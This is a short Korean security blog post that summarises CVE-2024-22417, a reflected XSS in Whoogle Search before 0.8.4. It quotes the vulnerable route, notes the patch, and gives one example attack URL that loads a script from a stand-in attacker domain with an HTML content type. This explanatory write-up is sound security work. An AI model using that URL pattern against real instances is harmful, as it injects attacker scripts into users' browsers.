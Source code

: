 ```yaml
---
title: "[하루한줄] CVE-2024-22417 : Whoogle-search Reflected XSS"
author: ogu123
tags: [Whoogle-search, Reflected XSS, ogu123]
categories: [1day1line]
date: 2024-02-08 17:00:00
cc: true
index_img: /img/1day1line.png
---
```


## URL

[XSS vulnerability in Whoogle Search versions prior to 0.8.4.](https://securitylab.github.com/advisories/GHSL-2023-186_GHSL-2023-189_benbusby_whoogle-search/)

## Target

- Whoogle Search < 0.8.4

## Explain

Whoogle은 개인화된 Google입니다. Google에 직접 검색 쿼리를 보내는 대신, Whoogle이 중개자 역할을 수행해 사용자 검색 쿼리를 Google에 저장하는 것을 방지하여 개인정보를 보호할 수 있습니다.

CVE-2024-22417 취약점은 사용자가 제어할 수 있는 변수에 대한 검증이 이루어지지 않아 발생했습니다.


```
def element():
    element_url = src_url = request.args.get('url')

    #code cut out for readability
    src_type = request.args.get('type')

    try:
        file_data = g.user_request.send(base_url=src_url).content
        tmp_mem = io.BytesIO()
        tmp_mem.write(file_data)
        tmp_mem.seek(0)

        return send_file(tmp_mem, mimetype=src_type)
    except exceptions.RequestException:
        pass
```
발생 위치는 `app/routes.py` 파일의 `element` 메소드이며, 공격자가 작성한 URL을 통해 타겟에서 악성 스크립트를 실행할 수 있습니다.

<br>

```
https://whoogle.dragon.local/element?url=http://ogu123-domain.com/ogu123-script.js&type=text/html
```
공격자는 취약점을 악용해 위와 같은 URL을 만들 수 있습니다.

타겟이 해당 URL에 접속할 경우 `element_url(http://ogu123-domain.com/ogu123-script.js)`로 GET 요청을 보내고 `src_type(text/html)` 형식으로 타겟 브라우저에서 응답을 실행합니다.

만약 `element_url`에서 악성코드가 포함되어 있다면, 타겟 브라우저에서 XSS가 트리거됩니다.
<br>

![](cve-2024-22417/image1.png)

취약점에 대한 [패치](https://github.com/benbusby/whoogle-search/commit/3a2e0b262e4a076a20416b45e6b6f23fd265aeda)는 `src_url`에서 도메인을 추출 및 검증하는 코드를 추가하는 것으로 Reflected XSS 공격을 차단하도록 이루어졌습니다.



## Reference

- [Security-Database](https://www.security-database.com/detail.php?alert=CVE-2024-22417)
